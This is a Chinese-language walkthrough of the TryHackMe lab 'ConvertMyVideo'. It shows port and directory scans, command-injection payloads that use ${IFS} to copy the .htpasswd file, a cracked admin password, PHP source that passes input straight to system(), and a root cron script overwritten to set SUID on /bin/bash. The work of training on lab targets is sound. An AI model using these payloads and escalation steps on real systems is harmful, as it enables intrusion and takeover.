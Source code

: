```yaml
---
sidebar_position: 98
tags: [Easy, Linux, 命令注入, 定时任务]
title: "ConvertMyVideo"
description: "ConvertMyVideo"
sidebar_label: "ConvertMyVideo"
slug: /tryhackme/98
---
```

# ConvertMyVideo
## 端口扫描
```bash
root@ip-10-10-210-11:~/convertmyvideo# nmap -sTCV -p 22,80 --min-rate 1000 10.10.124.201

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-18 04:35 BST
Nmap scan report for ip-10-10-124-201.eu-west-1.compute.internal (10.10.124.201)
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:49:2B:4E:9A:51 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.24 seconds
```
## 80
```bash
root@ip-10-10-210-11:~/convertmyvideo# gobuster dir -u http://10.10.124.201/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.201/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/18 04:41:38 Starting gobuster
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/admin (Status: 401)
/js (Status: 301)
/tmp (Status: 301)
```

访问站点, 根据题目给出的条件来看这是一个将视频下载到本地的程序, 这种一般是存在 SSRF 和 命令注入的, 截获请求, 我发现其所请求的视频 URL 是在前端拼凑的, 所以可以借此来进行攻击, 最后发现了 命令注入

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-123719.png)

然后开始了一系列的攻击:

- 需要绕过空格我在这里使用了 `${IFS}`
- 可以返回内容, 但是需要经过 base64 加密, 但是返回的数据长度优点限制

结合上面的内容, 同时扫描出来的 admin 页面进行了密码保护, 我进行了文件的重命名操作

```bash
<http://10.10.210.11:8000/admin?page=`cp${IFS}./admin/.htpasswd${IFS}admin1.txt`>
<http://10.10.210.11:8000/admin?page=`cp${IFS}./admin/index.php${IFS}admin.txt`>
```

访问重命名后的文件, 基于此我获取到了密码

```bash
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/ --> 解密后: jessie
```

我们的 `index.php` 的源码

```bash
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>

<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
</a>
```

这里存在命令执行

## 后渗透

### www-data

基于上面发现的命令注入漏洞来获取一个 Shell

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-123811.png)

### www-data —> root

筛查定时任务我发现 root 用户在定时执行一些程序

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-123821.png)

因此我修改了这里的 cleans 文件来获取 Shell

```bash
(remote) www-data@dmv:/var/www/html/tmp$ ls -al
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Sep 18 04:13 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh
(remote) www-data@dmv:/var/www/html/tmp$ cat clean.sh 
rm -rf downloads
(remote) www-data@dmv:/var/www/html/tmp$ rm -rf clean.sh 
(remote) www-data@dmv:/var/www/html/tmp$ ls
(remote) www-data@dmv:/var/www/html/tmp$ cat << EOF >clean.sh
> chmod u+s /bin/bash  
> EOF
(remote) www-data@dmv:/var/www/html/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
(remote) www-data@dmv:/var/www/html/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```